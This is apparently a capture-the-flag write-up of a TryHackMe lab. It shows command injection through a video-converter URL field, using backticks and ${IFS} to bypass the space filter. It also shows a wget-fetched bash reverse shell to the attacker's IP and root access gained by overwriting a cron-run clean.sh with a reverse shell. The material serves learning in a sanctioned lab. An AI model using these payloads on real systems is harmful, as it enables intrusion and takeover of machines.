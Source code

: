 In this capstone we will compromise this machine:
- [https://tryhackme.com/r/room/convertmyvideo](https://tryhackme.com/r/room/convertmyvideo)

# nmap scan

```bash
nmap -T4 -p- -A HOST_IP
```
- ![[Pasted image 20250120150820.png]]

# Enumerating website
We start on the website and we start understand how its functionalities work:
- ![[Pasted image 20250120150902.png]]

We put `test` but nothing interesting.

We look at the source code:
- ![[Pasted image 20250120150940.png]]
- But nothing.



So let's check with `burp intercept on`:
- ![[Pasted image 20250120151041.png]]
- we put `test` on the input field


We send it to the repeater and we see the response:
- 
![[Pasted image 20250120151135.png]]


We can just see that the files are saved in `/tmp/downloads`

And that it uses `youtube-dl` to do the convertion, so we look at it:
- [https://github.com/ytdl-org/youtube-dl](https://github.com/ytdl-org/youtube-dl)

So basically it must run a command `youtube-dl URL`. 

Let's try to abuse it using the backticks:
```bash
`ls`
```
- ![[Pasted image 20250120151516.png]]
- it says `u'admin' is not a valid url` so we have a sort of command injection
- `admin` is a folder in this case


So we try:
```bash
`ls -la`
```
- ![[Pasted image 20250120151621.png]]
- It doesn't accept spaces



So let's try:
```bash
`ls%20-la`
```
- ![[Pasted image 20250120151733.png]]
- so nothing


We have to find a way to insert spaces... Just search on google and we find that we can use a special variable in shell called `IFS`.


It works because if we use `${IFS}` it will put a space after it automatically:
```bash
`ls${IFS}-la`
```
- ![[Pasted image 20250120152008.png]]
- OK BUT MAYBE IT DOESN'T WANT THE `-`



So just check using:
```bash
`ping${IFS}127.0.0.1`
```
- it stops and does nothing, so under the surface it is doing the ping
- ![[Pasted image 20250120152147.png]]


So we can try to put a reverse shell file `.sh` on the victim and execute it, using this command injection.

# shell injection
We create a file `.sh` called `rev.sh` with this content:
```bash
bash -i >& /dev/tcp/OUR_IP/8888 0>&1
```
- ![[Pasted image 20250120152426.png]]


At this point we set a server to serve this file usign:
```bash
python -m SimpleHTTPServer 80
```


So on burp we put:
```bash
`wget${IFS}http://OUR_IP/rev.sh`
```
- ![[Pasted image 20250120152621.png]]

The file is on the victim machine now.

So make it executable:
```bash
`chmod${IFS}777${IFS}rev.sh`
```
- ![[Pasted image 20250120152724.png]]
- we use `777` and not `+x` because `+` is not allowed


Now, just set a listener on our machine:
```bash
nc -nvlp 8888
```

Now we need to run it and we have done:
```bash
`bash${IFS}rev.sh`
```
- ![[Pasted image 20250120152918.png]]
- ![[Pasted image 20250120152925.png]]

We have a user shell.


# Privilege escalation
We do all the checks but nothing interesting.

# Crontab
We can also check `crontab`
```bash
cat /etc/crontab
```
- ![[Pasted image 20250120154252.png]]

We have no crontabs

But if we look at the processes:
```bash
ps aux
```
- ![[Pasted image 20250120154330.png]]
- we can see that `cron` is run from `root` somewhere

So now we will use `pspy`:
- 
[https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)


And we get `pspy64`:
- ![[Pasted image 20250120154546.png]]
- we got it from our host



We make it executable:
```bash
chmod +x pspy64
```


And then we run it:
```bash
./pspy64
```
- ![[Pasted image 20250120154735.png]]

We can see this `/var/www/html/tmp/clean.sh` that is interesting


So we do `ctrl+c` and we have to reconnect the shell with burp:
1. send file
2. make executable
3. run


# change `clean.sh`
We do:
```bash
cd var/qqq/html/tmp
```

And we look at the permission on `clean.sh`:
```bash
ls -la
```
- ![[Pasted image 20250120155021.png]]
- we are the owner of the file and we can write on it

So make it executable:
```bash
chmod 777 clean.sh
```


Now we make it a reverse shell:
```bash
echo "bash -i >& /dev/tcp/OUR_IP/5555 0>&1" > clean.sh 
```
- ![[Pasted image 20250120155231.png]]

We run a listener on our host:
```bash
nc -nvlp 5555
```

We wait a little bit and we obtain a root shell:
- ![[Pasted image 20250120155351.png]]

We gain a root shell!